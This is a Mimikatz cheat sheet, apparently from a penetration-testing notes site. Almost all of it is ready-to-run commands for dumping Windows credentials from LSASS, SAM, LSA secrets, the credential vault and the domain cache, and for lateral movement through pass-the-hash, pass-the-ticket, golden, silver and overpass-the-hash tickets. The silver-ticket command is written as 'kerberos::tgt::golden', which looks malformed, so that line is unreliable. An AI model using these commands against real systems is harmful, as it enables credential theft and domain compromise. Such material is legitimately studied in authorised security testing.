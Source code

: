 # 🥝 Mimikatz Basics

Mimikatz is a powerful tool to extract plaintext credentials, hashes,  and Kerberos tickets from memory. Typically run with Administrator or SYSTEM privileges, it’s vital for Windows privilege escalation and lateral movement.

***

## Basic Commands

```batch
mimikatz.exe
privilege::debug
token::elevate
```

## Extracting Credentials

### **Get NTLM Hashes from LSASS**:

```batch
sekurlsa::logonpasswords
```

### **Dump Kerberos Tickets**

```batch
sekurlsa::tickets /export
```

### **Dump Credential Manager**

```batch
vault::cred
```

### **SAM Database**

```batch
lsadump::sam
```

### **LSA Secrets**&#x20;

```batch
lsadump::secrets
```

### **Cached Domain Credentials**

```batch
lsadump::cache
```

## Lateral Movement

### Pass-the-Hash Attack

```batch
sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<hash> /run:<command>
```

### Pass The Ticket

```batch
kerberos::ptt <ticket.kirbi>
```

### Golden Ticket

{% code overflow="wrap" %}
```batch
kerberos::golden /user:<username> /domain:<domain> /sid:<domain SID> /krbtgt:<krbtgt hash> /id:<RID> /target:<target FQDN> /renewmax:<duration> /ptt
```
{% endcode %}

### Silver Ticket

{% code overflow="wrap" %}
```batch
kerberos::tgt::golden /user:<username> /domain:<domain> /sid:<domain SID> /service:<service> /target:<target FQDN> /rc4:<hash> /id:<RID> /ptt
```
{% endcode %}

### Overpass-the-Hash

{% code overflow="wrap" %}
```batch
sekurlsa::pth /user:<username> /domain:<domain> /aes256:<AES key> /run:<command>
```
{% endcode %}
